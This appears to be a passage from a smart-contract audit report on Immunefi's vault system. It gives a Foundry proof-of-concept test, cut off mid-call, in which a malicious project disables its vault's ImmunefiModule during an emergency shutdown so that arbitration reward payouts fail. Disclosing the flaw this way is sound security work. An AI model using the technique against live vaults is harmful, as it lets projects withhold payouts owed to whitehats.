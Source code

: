 ## References

https://github.com/immunefi-team/vaults/blob/49c1de26cda19c9e8a4aa311ba3b0dc864f34a25/src/guards/ImmunefiGuard.sol#L66-L68
        
## Proof of concept
## Proof of Concept

The vulnerability could be reproduced by modifying the `Arbitration.t.sol` file and adding the following test to it.

The implemented scenario demonstrates how a malicous project could disable their vault's `ImmunefiModule` during emergency which later on results in revert of payouts which are attempted by the Arbitration system.

```sol
    function testMaliciousProjectCanCauseSendRewardToFailAfterEmergencyShutdown() public {
        // 0. Set right permissions on moduleGuard
        vm.startPrank(protocolOwner);
        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendTokens.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);

        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendReward.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);
        vm.stopPrank();

        // 0. Arbitration ref ID
        uint96 referenceId = 1;

        // 0. Mint feeAmount of feeToken to whitehat
        ERC20PresetMinterPauser token = ERC20PresetMinterPauser(address(arbitration.feeToken()));
        vm.startPrank(protocolOwner);
        token.mint(whitehat, arbitration.feeAmount());
        vm.stopPrank();

        // 1. Protocol owner enables emergency shutdown since a critical issue was found in the Arbitration protocol
        vm.prank(protocolOwner);
        emergencySystem.activateEmergencyShutdown();

        bytes memory disableImmunefiModuleHashData = vault.encodeTransactionData({
            to: address(vault),
            value: 0,
            data: abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            operation: Enum.Operation.Call,
            safeTxGas: 0,
            baseGas: 0,
            gasPrice: 0,
            gasToken: address(0),
            refundReceiver: address(0),
            _nonce: vault.nonce()
        });

        bytes memory disableImmunefiModuleSignature = _signData(vaultSignerPk, disableImmunefiModuleHashData);

        // 2. Malicious project disables the ImmunefiModule since ImmunefiGuard allows **any** transaction on the vault.
        vault.execTransaction(
```